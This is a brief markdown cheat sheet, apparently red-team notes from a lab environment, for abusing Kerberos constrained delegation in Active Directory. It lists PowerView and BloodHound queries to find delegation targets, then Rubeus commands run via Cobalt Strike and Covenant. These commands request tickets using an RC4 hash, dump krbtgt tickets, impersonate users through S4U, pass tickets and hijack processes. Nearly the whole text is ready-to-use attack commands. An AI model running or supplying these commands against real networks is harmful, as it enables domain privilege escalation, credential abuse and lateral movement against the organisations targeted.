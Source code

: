 ## Powerview
``` powershell
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
```
## BloodHound
``` a
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

## CobaltStrike --- user to host
``` a
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dbservice /domain:US.FUNCORP.LOCAL /rc4:6f9e22a64970f32bd0d86fddadc8b8b5
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:[username] /msdsspn:[AllowedToDelegateTo] /altservice:cifs /ptt  (This should allow psexec)
```

## Covenant --- host to host
``` a
Rubeus dump /service:krbtgt
Rubeus s4u /impersonateuser:[username]@[domain] /msdsspn:[AllowedToDelegateTo] /ticket:[...snip...]
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x239b995 /ticket:[...snip...]
ImpersonateProcess 3420
```

* plain text to NTML
``` a
Rubeus.exe hash /password:lab
```
